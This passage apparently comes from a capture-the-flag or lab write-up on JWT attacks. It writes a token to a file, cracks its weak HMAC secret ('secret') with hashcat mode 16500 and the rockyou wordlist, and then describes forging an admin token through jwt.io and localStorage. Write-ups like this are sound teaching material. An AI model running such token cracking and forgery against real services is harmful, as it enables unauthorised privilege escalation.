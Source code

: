 ```bash
echo 'eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VybmFtZSI6InlhcmlzcyIsImVtYWlsIjoieWFyaXNzQGdtYWlsLmNvbSIsImlhdCI6MTcwMjE2MzExOCwiZXhwIjoxNzAyNDIyMzE4fQ.qM0y5p-udzF3icGowqbK9n637jfWWULHcap0-P6jgtI' > jwt.txt
```

Now let's use hashcat
```bash
hashcat -h | grep JWT                                             
  16500 | JWT (JSON Web Token)   
```

```bash
hashcat -a 0 -m 16500  jwt.txt  /usr/share/wordlists/rockyou.txt 
```

**Explanation**
- -a 0 : choosing the attack mode to be a wordlist bruteforcing
- -m 16500 : to precise the type of hashing / encryption
- jwt.txt : our data to decrypt
- ` /usr/share/wordlists/rockyou.txt ` : our wordlist


We got the secret key!

```
eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VybmFtZSI6InlhcmlzcyIsImVtYWlsIjoieWFyaXNzQGdtYWlsLmNvbSIsImlhdCI6MTcwMjE2MzExOCwiZXhwIjoxNzAyNDIyMzE4fQ.qM0y5p-udzF3icGowqbK9n637jfWWULHcap0-P6jgtI:secret
```

Now let's modify the token in `jwt.io`

<img src="/../assets/admin_jwt.png" alt="admin_jwt" />

Let's grab the new crafted token, past it in localStorage and refresh the page.
